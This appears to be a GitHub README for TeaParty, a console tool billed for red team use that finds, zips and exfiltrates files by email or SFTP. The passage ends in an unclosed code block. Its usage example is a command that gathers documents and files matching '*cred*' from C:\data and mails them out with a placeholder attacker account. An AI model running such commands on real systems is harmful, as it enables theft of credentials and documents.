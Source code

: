 # TeaParty 🫖

TeaParty is a console-based tool for searching, compressing, and exfiltrating files via email or SFTP. Designed for red team operations, incident response, or automation.

## Features

- Search by file extension, name pattern, or both
- Recursive search with exclusion filters
- ZIP compression with SHA256 integrity hashes
- Email delivery (supports multiple recipients)
- SFTP fallback if email fails (optional)
- Logging with `--debug` and `--quiet` mode
- Interactive input or CLI arguments
- Hash-based cache to avoid duplicates

Remember always use -h options to see more details
## Usage

```bash
teaparty.exe -s 3 -e .pdf,.docx -p *cred*.txt -d C:\data -m attacker@example.com:pass -to target@example.com -z 1
